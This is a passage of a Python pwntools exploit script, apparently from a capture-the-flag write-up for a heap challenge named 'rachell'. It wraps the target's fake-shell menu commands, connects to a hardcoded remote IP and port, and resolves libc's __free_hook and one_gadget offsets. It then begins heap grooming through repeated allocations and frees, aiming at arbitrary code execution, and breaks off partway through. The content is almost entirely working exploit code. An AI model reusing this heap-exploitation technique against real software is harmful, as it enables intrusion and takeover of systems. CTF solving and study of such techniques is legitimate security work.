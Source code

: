 ```python
    s.recvuntil(b"path> ")
    s.sendline(dir_name)


def touch(s, file_name):
    command(s, b"touch")
    s.recvuntil(b"filename> ")
    s.sendline(file_name)


def rm(s, file_name):
    command(s, b"rm")
    s.recvuntil(b"filename> ")
    s.sendline(file_name)


def echo(s, arg, file_name, redirect=False):
    command(s, b"echo")
    s.recvuntil(b"arg> ")
    s.sendline(arg)
    s.recvuntil(b"redirect?> ")
    if redirect:
        s.sendline("y")
        s.recvuntil(b"path> ")
        s.sendline(file_name)
    else:
        s.sendline("n")


def pwd(s, c=None):
    command(s, b"pwd")
    if c is not None:
        s.recvuntil(c)
    return s.recvline().rstrip()


def edit(s, idx, data, dir_name):
    echo(s, data, f"./{dir_name}/{idx}", True)


def delete(s, idx, dir_name):
    rm(s, f"./{dir_name}/{idx}")


def to_root(s):
    cd(s, "../")


if __name__ == "__main__":
    # s = process("./rachell")
    s = remote("35.221.81.216", 25252)
    libc = ELF("./libc.so.6")
    free_hook_libc = libc.symbols["__free_hook"]
    onegadgets = [0x4f2c5, 0x4f322, 0x10a38c]
    # ready 0xb0 (sizeof(node)) and 0x30 (sizeof(node->name))
    for i in range(7):
        mkdir(s, "d" + str(i))
        touch(s, "f" + str(i))
        echo(s, "a" * 0x28, "f" + str(i), True)

    for i in range(1, 7):
        rm(s, f"./f{i}")
        rm(s, f"./d{i}")
```